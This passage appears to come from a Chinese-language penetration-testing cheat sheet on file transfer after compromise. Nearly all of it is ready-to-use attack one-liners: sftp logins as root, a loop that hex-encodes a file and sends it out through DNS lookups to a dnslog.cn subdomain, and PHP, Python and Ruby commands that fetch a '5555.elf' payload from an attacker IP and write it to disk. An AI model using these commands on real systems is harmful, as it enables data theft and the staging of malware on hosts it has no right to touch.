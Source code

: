 ```bash
sftp root@192.168.81.229:/var/www/html/

sftp -P 22 root@192.168.81.229

sftp -P 22 -i ~/.ssh/id_rsa root@192.168.81.229

# -P 指定端口
# -i 指定私钥
```

### DNS

```bash
cat test | xxd -p -c 16 | while read line; do host $line.sau547.dnslog.cn; done
```

## 脚本语言

### PHP

```php
php -r 'file_put_contents("5555.elf",file_get_contents("http://192.168.81.229/5555.elf"));'
```

### Python

```python
python3 -c "import urllib.request;u=urllib.request.urlopen('http://192.168.81.229/5555.elf');f=open('c:\\temp\\win.hta','w');f.write(u.read().decode('utf-8'))"

python2 -c "import urllib2;u=urllib2.urlopen('http://192.168.81.229/5555.elf');f=open('c:\\temp\\win.hta','w');f.write(u.read());f.close()"
```

### Ruby

```ruby
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("192.168.81.229") { |http| r = http.get("/5555.elf")
  open("/tmp/5555.elf", "wb") { |file| file.write(r.body)
    }
}
```

```bash
ruby -e "require 'net/http';Net::HTTP.start('192.168.81.229') { |http|r = http.get('/5555.elf');open('/tmp/5555.elf', 'wb') { |file| file.write(r.body)}}"
```

